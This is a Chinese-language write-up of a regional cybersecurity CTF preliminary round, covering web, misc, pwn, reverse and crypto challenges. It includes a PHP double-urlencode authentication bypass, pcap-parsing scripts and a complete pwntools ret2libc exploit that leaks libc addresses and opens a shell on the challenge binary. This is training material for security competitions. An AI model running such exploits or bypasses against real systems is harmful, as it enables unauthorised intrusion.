7月29号刚参加完自治区的职工技能竞赛，不到半个月，又是玄盾珠峰网络安全技能竞赛，两个赛事都是只有个人赛，赛后觉得，可能个人赛更容易操作吧。本次比赛之后，得知上次的CFS比赛中，主办方给最终的第一名后台加了分，emmm，熟悉的场景，只不过变成受害者了。
    因为是预赛，所以大家不太卷，不像最后的决赛，半个小时风云变幻，那是真刺激。参赛选手们，出去上一次厕所回来，名次就变化一次。比赛后半程，出题师傅都不见了，我们开玩笑地说，可能是去帮忙做题去了。
Web urlencode（done） dirsearch扫描网站路径，发现了index.php.bak
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php if ("admin" ===$_GET [id]) { echo ("<p>not allowed!</p>" ); exit (); } $_GET [id] = urldecode ($_GET [id]);if ($_GET [id] == "admin" ){ echo "<p>Access granted!</p>" ; echo "<p>Flag: XXXXXXX </p>" ; } ?> Can you anthenticate to this website?
审计代码发现，通过urlencode两次即可绕过代码的判断（web服务器会对url进行一次解码，结合代码会进行一次urldecode，所以需要两次encode），只需要修改一个字符就行，比赛的时候慌张了，全修改了，导致抢答的时候手慢了。

2 一道java的ssti，之前没接触过，比赛的时候以为还是python呢，在那各种试，比赛最后关头放出的提示才发现，不是python。。。
Misc hellokity（done） strings大法好

analyse（done） 根据比赛快结束之前放出的提示，关注icmp、dns以及http的流量
icmp 
观察可知，icmp的frame的长度和data长度存在出入，如果对frame的长度进行ascii转码，可以得到一串字符，对字符串base64解码，拿到flag的一部分
1 2 3 4 5 6 7 8 from os import systemfrom base64 import b64decodesystem('tshark -2 -r analyse.pcapng -Y "icmp&&icmp.type==8" -Tfields -e data.len >icmp.txt' ) with open ("./icmp.txt" )as f: data = f.readlines() flag = b64decode("" .join([chr (int (x)) for x in data])) print (flag)
b’flag{be742a9c-‘
dns 观察dns的包，发现请求了带二进制的域名

dns部分导出查询域名里包含二进制的部分整理后(需要去重)，写脚本还原，是一个二维码（其实把二进制放到vscode里，就能隐约开出来是个二维码）
1 tshark -2 -r analyse.pcapng -Y "dns" -Tfields -e dns.qry.name >dns.txt
边长50的一个二维码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 from PIL import Imagewith open ("./1.txt" ,'r' )as f: cipher = f.read() print (len (cipher))qr_heithg = 50 pic = Image.new('RGB' , (qr_heithg, qr_heithg)) i = 0 for y in range (qr_heithg): for x in range (qr_heithg): if cipher[i] =='1' : pic.putpixel([x, y], (0 , 0 , 0 )) else : print (cipher[y+x]) pic.putpixel([x, y], (255 , 255 , 255 )) i += 1 pic.save("qr.png" )
扫描二维码拿到一部分flag

http 观察http，发现请求了很多图片，实在没有思路，后来老师给出了提示，在序号等于500的http请求里，有一段非常短的图片

对base64解码，拿到最后一段flag

保存成文件，文本打开即可过滤掉中间的空字符

PWN questionnaire_investigation_v2（done） 查看源码主函数


backdoor函数虽然有system，但是参数并不是”/bin/sh”
所以需要通过函数中的puts的plt和got泄露出puts的真实地址，通过真实地址减去libc中puts的地址，计算出基地址
然后再通过libc文件，找到system函数和/bin/sh字符串的地址，通过计算出运行时的真实地址，再进行覆盖。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 from pwn import *context( log_level="debug" , binary="./questionnaire_investigation_v2" , terminal=['tmux' , 'splitw' , '-h' ] ) DEBUG = 1 if DEBUG: p = process() else : p = remote("10.237.35.217" , 28093 ) e = context.binary libc = ELF( "/home/paulownia/Tools/Pwn/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so" ) puts_plt_addr = e.plt['puts' ] puts_got_addr = e.got['puts' ] pop_rdi_ret = 0x0000000000400793 vul_addr = e.symbols['main' ] log.success(f"puts_plt_addr:{hex (puts_plt_addr)} " ) log.success(f"puts_got_addr:{hex (puts_got_addr)} " ) log.success(f"vul_addr:{hex (vul_addr)} " ) payload = b"a" *(0x30 +8 ) + p64(pop_rdi_ret) + p64(puts_got_addr) + \ p64(puts_plt_addr) + p64(vul_addr) p.sendlineafter( 'Can you explain your confusion during CTF learning?\n' , payload) puts_real_addr = u64(p.recvuntil(b"\x7f" )[-6 :].ljust(8 , b'\x00' )) log.success(f"puts_real_addr:{hex (puts_real_addr)} " ) base_addr = puts_real_addr - libc.sym['puts' ] log.success(f"base_addr:{hex (base_addr)} " ) system_addr = base_addr + libc.sym['system' ] bin_sh_addr = base_addr + next (libc.search(b"/bin/sh" )) log.success(f"system_addr:{hex (system_addr)} " ) log.success(f"bin_sh_addr:{hex (bin_sh_addr)} " ) ret_addr = 0x0000000000400506 payload = b"a" *(0x30 +8 ) + p64(ret_addr)+p64(pop_rdi_ret) + \ p64(bin_sh_addr) + p64(system_addr) + p64(vul_addr) p.sendlineafter( "Can you explain your confusion during CTF learning?\n" , payload) p.interactive()
Reverse ad（done） apk文件解压之后，直接strings搜索一下，能发现密文
1 strings * | grep -P "\w{4}\{\w+}"

直接rot13一下

Crazyencode 一道安卓逆向，没解出来。
Crypto 翻转（done） rot13
比赛的时候总觉的rot13是有坑的，在那写脚本，结果发现不对。。。。。
xor（done） 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 from Crypto.Util.number import *from Crypto.Cipher import PKCS1_OAEPfrom Crypto.PublicKey import RSAfrom secret import flag,p,q,eN=p*q x=81616793159567136422389758585591940662857576283302867011800445277592420866836093507411736040996742950676922327919824777893118631113867500244368612517429678572193116622664051815861481500355863477109385340706136160893878015686817479333596425572252594901263332045777914789662665019123717287533930696370434650226 assert x==p^^qd = inverse(e, (p-1 )*(q-1 )) key = RSA.construct((N,e,d,p,q)) cipher = PKCS1_OAEP.new(key) ciphertext = cipher.encrypt(flag) f1=open ("flag.enc" ,"wb" ) f1.write(ciphertext) f2=open ("public.pem" ,"wb" ) f2.write(key.publickey().exportKey())
已知n，e（从public.pem中分离）
题目给了p和q异或的结果，所以按理来说，需要运用数论和sage，求出p和q，但是github上有现成的脚本
https://github.com/sliedes/xor_factor
通过脚本，利用已知n和p^q，直接可以求出p和q
然后就是传统的rsa私钥解密了，需要注意的是，题目是使用的PKCS1_OAEP方式加密的，所以没办法通过简单的数学公式求出明文，需要将私钥按照OAEP的方式生成，再解密
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 import gmpy2from Crypto.PublicKey import RSAfrom Crypto.Util.number import *from Crypto.Cipher import PKCS1_OAEPwith open ("./public.pem" ) as f: pubkey = RSA.importKey(f.read()) print (pubkey.e,pubkey.n)n = pubkey.n e = pubkey.e p = 120704675500260151469966649988822073439735620657157178605185111090847776896412605616399851623640833537748026036394147889121948427362807952170087685331046616222708535122650963466159965155206404582900022412695010039292107108659626384086949151937712914513006713261769248399597038840377613425426477030974588859983 q = 157194667273395078091690715359649373226005247729684564897233925620451263163534476559233007477874770144949074471296577678270820453203784261690001421933906316488224081275610737920296334697466445787310072301759253431687655435272535953996103257268055911344285357880348486067423090573148921357811044304231614285373 phin = (p-1 )*(q-1 ) d = gmpy2.invert(e,phin) print (d)private_key = RSA.construct((int (n), int (e), int (d), int (p), int (q))) decipher = PKCS1_OAEP.new(private_key) with open ("./flag.enc" ,"rb" )as f: cipher = f.read() print (decipher.decrypt(cipher))